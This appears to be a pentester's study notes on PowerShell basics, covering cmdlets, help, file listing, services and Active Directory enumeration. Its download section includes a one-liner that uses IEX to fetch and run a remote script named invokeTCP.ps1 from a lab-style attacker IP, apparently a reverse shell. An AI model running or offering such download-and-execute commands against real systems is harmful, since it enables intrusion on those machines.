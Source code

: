 # PowerShell

PowerShell is Windows new shell. It comes by default from Windows 7. But can be downloaded and installed in earlier versions.

* PowerShell provides access to almost everything an attacker might want.
* It is based on the .NET framework.
* It is basically bash for windows
* The commands are case-insensitive

## Basics

So a command in PowerShell is called **cmdlet**. The cmdlets are created using a verb and a noun. Like `Get-Command`, Get is a  verb and  Command is a noun. Other verbs can be: remove, set, disable, install, etc.



To get help on how to use a **cmdlet** while in PowerShell, the man-page, you do:

```
Get-Help    <cmdlet    name    |    topic    name>
```

Example

```
get-help echo
get-help get-command
```

Find out what flags you can use just write `get-command -` en then start tabbing.


**Powershell Version and Build**

```
$PSVersionTable
```

### Fundamentals

With get-member you can list all the properties and methods of the object that the command returns.

```
Get-Member
For example:
Get-Command | Get-Member
Get-Process | Get-Member
```



Select-XXX

```
Select-object
```



#### Variables

```
$testVar = "blabla"
```





**Wget / Download a file**

```
Invoke-WebRequest <uri>
wget <uri>
powershell -c "IEX(New-Object Net.webClient).downloadString('http://10.10.14.6:8080/invokeTCP.ps1')"
```

**Grep**

```
Select string can be used like grep
get-command | select-string blabla
```

**General commands that can be used on objects**

```
measure-object -words
get-content fil.txt | measure-object words
```

### Working with filesystem

**List all files in current directory**

```
get-childitem
gci

List hidden files too
gci -Force

List all files recurisvely
gci -rec

Count the files
(get-childitem).count
List all files but exclude some folders
gci -exclude AppData | gci -rec -force
```

### Working with files

```
Read a file
Get-Content
    gc
    cat
Count lines of file
(get-content .\file).count
Select specific line in a file (remember that it starts from 0)
(gc .\file.txt)[10]
gc .\file.txt | Select -index 10
```

### Services

```
List services
get-service
```

### Network related stuff

Domain information

```
Get-ADDomain
Get-AdDomainController
Get-AdComputer
To see a list of all properties do this
get-adcomputer ComputerName -prop *

Get AD Users
Get-ADUser -f {Name -eq 'Karl, Martinez'} -properties *

Get all AD Groups
Get-ADGroup -filter *



Resolve DNS
Resolve-DNSname 10.10.10.10

```



